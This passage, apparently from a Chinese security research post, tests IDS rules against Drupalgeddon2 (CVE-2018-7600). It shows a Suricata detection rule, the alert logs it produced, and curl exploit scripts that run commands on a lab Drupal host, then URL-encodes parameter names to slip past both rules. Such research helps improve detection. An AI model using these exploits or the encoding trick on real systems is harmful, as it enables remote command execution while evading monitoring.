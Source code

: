```
alert http any any -> $HOME_NET any (\
  msg: "ATTACK [PTsecurity] Drupalgeddon2 form (CVE-2018-7600)"; \
  flow: established, to_server; \
  content: "/user/register"; http_uri; \
  content: "POST"; http_method; \
  content: "drupal"; http_client_body; \
  pcre: "/(%23|#)(access_callback|pre_render|post_render|lazy_builder)/Pi"; \
  reference: cve, 2018-7600; \
  reference: url, research.checkpoint.com/uncovering-drupalgeddon-2; \
  classtype: attempted-admin; \
  reference: url, github.com/ptresearch/AttackDetection; \
  metadata: Open Ptsecurity.com ruleset; \
  sid: 10002808; \
  rev: 2; \
)
```
重启Suricata后，我们可以来试一下如上两条规则能否成功拦住我的漏洞利用请求：

得到了两条Suricata日志：

```
ATTACK [PTsecurity] Drupalgeddon2 form (CVE-2018-7600) [Priority: 1] {PROTO:006} 192.168.16.140:51702 -> 192.168.16.112:8080

Possible Drupalgeddon2 attack [Priority: 3] {PROTO:006} 192.168.16.140:51702 -> 192.168.16.112:8080
```
但这两条规则其实很容易绕过。前面我们已经知道如何滥用PHP查询字符串解析函数来绕过我的规则。我们可以将form_id=user_register_form请求替换为form%5bid=user_register_form：

![](https://s3.hedgedoc.org/demo/uploads/03a34bf8-153c-4038-be16-d5f21a18680b.jpg)


```
#!/bin/bash

URL="/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
QSTRING="form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]="
COMMAND="id"

curl -v -d "${QSTRING}${COMMAND}" "http://192.168.16.112:8080$URL"

```

如上所示，此时只有PT规则会捕获到攻击请求。分析PT规则的正则表达式后，可以看到该规则会匹配#以及对应的编码（%23）。但该规则并没有匹配下划线字符所对应的编码，因此我们可以使用post%5frender来绕过这一规则：


![](https://s3.hedgedoc.org/demo/uploads/83804362-8bcf-4065-ac5f-20c415bdb902.jpg)

这样就可以通过如下漏洞利用payload成功绕过这两条规则：

```
#!/bin/bash

URL="/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
QSTRING="form%5bid=user_register_form&_drupal_ajax=1&mail[#post%5frender][]=exec&mail[#type]=markup&mail[#markup]="
COMMAND="id"

curl -v -d "${QSTRING}${COMMAND}" "http://192.168.16.112:8080$URL"

```
